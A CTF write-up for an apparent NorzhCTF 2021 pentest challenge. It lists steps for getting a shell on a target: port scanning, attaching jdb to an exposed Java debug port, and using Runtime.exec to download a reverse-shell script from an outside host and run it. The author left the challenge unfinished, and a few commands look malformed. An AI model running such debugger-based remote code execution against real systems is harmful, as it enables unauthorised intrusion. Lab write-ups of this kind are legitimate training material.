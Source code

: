 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

My thought process...

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```
10. ```...```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)

Another great write-up to check out by [@snix0](https://github.com/snix0) [https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md](https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md)

Oop found another write-up I liked by [stackotter.dev](https://stackotter.dev/): [https://stackotter.dev/blog/norzh-ctf-2021-leet-computer-writeup](https://stackotter.dev/blog/norzh-ctf-2021-leet-computer-writeup)
